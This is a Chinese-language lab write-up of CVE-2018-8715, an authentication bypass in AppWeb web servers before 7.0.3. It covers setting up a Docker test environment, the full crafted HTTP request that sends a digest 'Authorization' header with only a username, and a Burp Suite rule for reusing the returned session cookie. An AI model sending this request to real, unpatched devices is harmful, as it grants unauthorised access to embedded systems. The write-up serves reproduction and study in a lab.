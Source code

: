 # AppWeb认证绕过漏洞 CVE-2018-8715

## 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676

## 环境搭建

Vulhub执行如下命令启动一个带有digest认证的Appweb 7.0.1服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: 192.168.174.128:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Digest username=admin
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image-20220221164849686](./images/202202211648848.png)

在Burpsuite→Options→Match and Replace中设置规则，这样在每次发送数据包时将自动在Headers中加入Cookie，添加session到浏览器：

![image-20220221170835479](./images/202202211708588.png)

即可正常访问需要认证的页面：

![image-20220221171619437](./images/202202211716649.png)

